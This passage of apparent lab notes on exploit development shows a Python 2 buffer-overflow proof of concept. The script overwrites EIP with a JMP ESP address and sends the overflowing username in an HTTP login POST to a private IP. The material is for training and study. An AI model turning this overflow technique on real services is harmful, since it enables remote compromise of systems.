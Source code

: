 First, we set a breakpoint (F2) on the JMP ESP instruction we have just found in order to follow the execution of the instruction. We now let the application run.
![[Pasted image 20220713143634.png]]

We then update the eip variable in our exploit to point to 0x10090c83, due to little endianess we must place the address in reverse order. The exploit being used will look like this:
```python
#!/usr/bin/python2

import socket

 try:
	print "\nAttempting to send buffer..."

	filler = "A" * 780
	eip = "\x83\x0c\x09\x10"
	offset = "C" * 4
	buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

	inputBuffer = filler + eip + offset + buffer



	content = b"username=" + inputBuffer + b"&password=A"


	buffer = "POST /login HTTP/1.1\r\n"
	buffer += "Host: 192.168.233.10\r\n"
	buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
	buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
	buffer += "Accept-Language: en-US,en;q=0.5\r\n"
	buffer += "Referer: http://192.168.233.10/login\r\n"
	buffer += "Connection: close\r\n"
	buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
	buffer += "Content-Length: "+str(len(content))+"\r\n"
	buffer += "\r\n"

	buffer += content

	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
	s.connect(("10.11.0.22", 80))
	s.send(buffer)
  
	s.close()

	print "\nSuccess!"

 except:
 	print "\nCould not connect"
```
